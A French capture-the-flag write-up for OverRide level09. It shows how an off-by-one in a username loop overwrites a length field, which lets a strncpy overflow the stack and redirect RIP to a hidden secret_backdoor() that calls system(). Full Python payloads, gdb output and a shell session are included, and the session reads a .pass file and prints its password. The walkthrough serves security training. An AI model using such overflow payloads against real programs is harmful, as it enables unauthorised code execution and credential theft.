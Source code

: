 
## LEVEL 09

Lorsqu'on lance le programme celui-ci nous demande un nom d'utilisateur et un msg.

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: asaba
>: Welcome, asaba
>: Msg @Unix-Dude
>>: hi
>: Msg sent!
```

Dans le décompiler on remarque 4 fonctions intéressante.

    handle_msg()
    set_msg()
    set_username()
    secret_backdoor()

En analysant le programme on remarque que les entrées se suivent dans la mémoire, comme dans une structure !

On remarque aussi que le programme est en 64 bits, ce qui va nous servir pour plus tard.

On a donc :

```
struct  msg{  
   char msg[140];
   char username[40];
   int msg_len;
} msg;
```

On trouve les buffers grâce à cette ligne 

    strncpy(arg1, &src, (arg1 + 0xb4));
    arg1		-> Première variable
    arg1 + 0xb4	-> arg1 + 180 -> msg_len

Il y a donc 180 octets entre la première variable et la dernière, on sait que la première variable à un buffer de 140, la deuxième variable à donc un buffer de 40. 
    

handle_msg appelle ensuite set_username qui remplit le champs username de la structure. On a alors une boucle for, mais celle-ci comporte une petit erreur, elle va jusqu'à 41 (0x29) et non 40 (0x28).

Il y'a a donc un octet que l'ont peut overflow. Le programme ne segfault pas car lorsque l'on dépasse ce buffer c'est la prochaine variable de la structure qui va se remplir donc : `msg_len`

Comme vu plus haut, `msg_len` est utilisé dans le `strncpy()` on va donc pouvoir grâce à l'username mettre un nombre choisis dans `msg_len`, on met donc le maximum possible dans 1 octet c'est à dire : 0xff.

On peut essayer de créer un début de payload :

    $ python -c 'print "a" * 40 + "\xff" + "\n" + "a" * 140' > /tmp/payload

On le lance : 

```
level09@OverRide:~$ cat /tmp/payload - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒>: Msg @Unix-Dude
>>: >: Msg sent!

Segmentation fault (core dumped)
```
On arrive à obtenir un segfault.

Pour la suite il va falloir utiliser cet overflow pour push l'adresse de la fonction `secret_backdoor()` qui n'est pas appellée. Celle-ci appelle `system(string)`  on va donc devoir reussir à changer l'EIP et entrer la commande que l'on veut comme argument.

On récupère l'adresse de cette fonction :
 ```
 (gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
 ```

Vu que le programme est en x64 bit, les adresses mémoires font 8 octets et on ne cherche pas l'EIP, mais l'RIP.

Pour ça on trouve le début du buffer de RBP :

    0x0000000000000906 <+70>:    lea    -0xc0(%rbp),%rax

    0xc0 = 192

Et pour taper dans le registre suivant, on ajoute 8 octets on obtient alors l'offset de l'RIP.

On peut maintenant construire notre payload complet :

    $ python -c 'print "a" * 40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" "/bin/sh"' > /tmp/payload

```
level09@OverRide:~$ cat /tmp/payload - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBu
```
